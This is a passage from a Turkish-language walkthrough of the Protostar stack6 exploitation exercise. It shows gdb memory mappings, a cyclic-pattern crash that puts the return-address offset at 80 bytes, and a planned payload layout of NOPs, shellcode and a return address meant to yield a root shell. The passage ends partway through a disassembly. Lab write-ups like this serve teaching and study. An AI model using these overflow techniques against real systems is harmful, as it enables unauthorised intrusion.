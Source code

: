 ```bash
	in stack6/stack6.c
(gdb) info proc map
process 2001
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
```
Son satırda görüldüğü gibi satck alanı 0xbf ile başlıyor. Peki biz nereye atlayacağız ve root olarak shell alacağız? Burada Liveoverflow'un videosunda gördüğüm yöntem ile anlatacağım ancak rop veya ret2libc ile de çözebilirsiniz. Ret2libc ile çözümü de stack7 de yapacağız. <br>
Neyse şimdi bizim burada kullanacağımız yönteme gelelim. Biz bf ile başlayan adrese dönemiyorduk. Şimdi kaç bytedan sonra return adresine yazıyoruz ona bakalım.
```bash
user@protostar:/opt/protostar/bin$ ./stack6
input path please: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Segmentation fault
user@protostar:/opt/protostar/bin$ dmesg |tail -1
[20257.860054] stack6[2018]: segfault at 37634136 ip 37634136 sp bffff6a0 error 4
```
Segfault veren değeriin foseti 80 olarak karşımıza çıkıyor. O zaman şu şekilde bir stack yapısı oluşturabiliriz:
```
36*NOP + shellcode(28 byte) + 12*A + 4*B + return_address
```
E ama biz bf li adrese dönemiyoduk, onu çözecektik. Gdb ile getpath fonksiyonunu disassembly edelim.
```bash
(gdb) disas getpath 
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   %ebp
0x08048485 <getpath+1>:	mov    %esp,%ebp
0x08048487 <getpath+3>:	sub    $0x68,%esp
0x0804848a <getpath+6>:	mov    $0x80485d0,%eax
0x0804848f <getpath+11>:	mov    %eax,(%esp)
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    0x8049720,%eax
0x0804849c <getpath+24>:	mov    %eax,(%esp)
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    -0x4c(%ebp),%eax
0x080484a7 <getpath+35>:	mov    %eax,(%esp)
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    0x4(%ebp),%eax
```